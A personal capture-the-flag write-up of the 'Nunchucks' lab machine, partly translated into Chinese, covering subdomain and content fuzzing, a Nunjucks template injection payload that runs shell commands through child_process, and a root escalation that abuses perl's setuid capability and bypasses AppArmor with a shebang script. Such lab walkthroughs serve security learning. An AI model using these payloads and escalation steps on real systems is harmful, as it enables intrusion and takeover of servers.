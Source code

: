 1, nmap scan
22/tcp ssh
80/tcp http
443/tcp ssl/http

2, enumerate sub-domain
Because of no useful information, we can also find some sub-domain of this website
wfuzz -H "Host: FUZZ.nunchucks.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 30587 https://nunchucks.htb

we can find "store.nunchucks.htb"

3, enumerate the website 
![[Pasted image 20240720090328.png]]
It is clear that registration is closed.
So try to find something useful in the fuzzing the web-contents.
 ffuf -u https://nunchucks.htb/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -fs 45

/login /privacy /signup /terms /asserts
maybe /login could have the sql-injection
from Wappalyzer, we can get this website is powered by node-js and express,it always use no-sql databases with it.
So try some typical no-sql injection payload:(fail)

Let's enumerate the web of store.nunchucks.htb
 ffuf -u https://store.nunchucks.htb/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -fs 45
We only find the /asserts
So try to find some hints from the index page
There is a POST request from the email submit,let's exploit it by using burpsuite
![[Pasted image 20240720092923.png]]
Successfully identity the SSTI ! (nunchucks template injection)
pyload:
 {"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@qq.com1"}

of course, we can get user.txt and make our ssh file
finally we successfully login into the server 
ssh david@10.10.11.122

4, Shell as root
we can upload the tool pspy64 to help us to find something in the background

as root 
/bin/sh /usr/lib/apt/apt.systemd.daily lock_is_held install

also we find something interesting in the /opt/backup.pl

use POSIX qw(setuid); 
POSIX::setuid(0);

But since only root can write to /opt/web_backups, it’s using POSIX::setuid(0) to run as root.
To do this, it must either be SUID or have a capability. It has the setuid capability:

getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep

So we want to try to get root shell straightly
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
but it didnot work!
but exec "id" get uid=0(root) gid=1000(david) groups=1000(david)

Apparmor is a way to define access controls much more granularly to various binaries in Linux. There are a series of binary-specific profiles in /etc/apparmor.d
there is a specific for usr.bin.perl

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

so we could not straightly by /usr/bin/perl

but we can try  write it into scipts:

There’s two common ways to start a script on Linux. The first is to call the interpreter (bash, python, perl) and then give it the script as an argument. This method will apply AppArmor protections as expected.
在 Linux 上启动脚本有两种常见方法。第一种是调用解释器（ bash 、 python 、 perl ），然后将脚本作为参数提供给它。此方法将按预期应用 AppArmor 保护。

The other is using a Shebang (#!) and setting the script itself to executable. When Linux tries to load the script as executable, that line tells it what interpreter to use. For some reason, the AppArmor developers don’t believe that the rules for the interpreter should apply there, and so they don’t.
另一种是使用 Shebang ( #! ) 并将脚本本身设置为可执行文件。当 Linux 尝试将脚本加载为可执行文件时，该行会告诉它要使用哪个解释器。由于某种原因，AppArmor 开发人员认为解释器的规则不应该适用于此，因此他们不这样做。

That means if I just run ./shell.pl, it works and we get root shell.
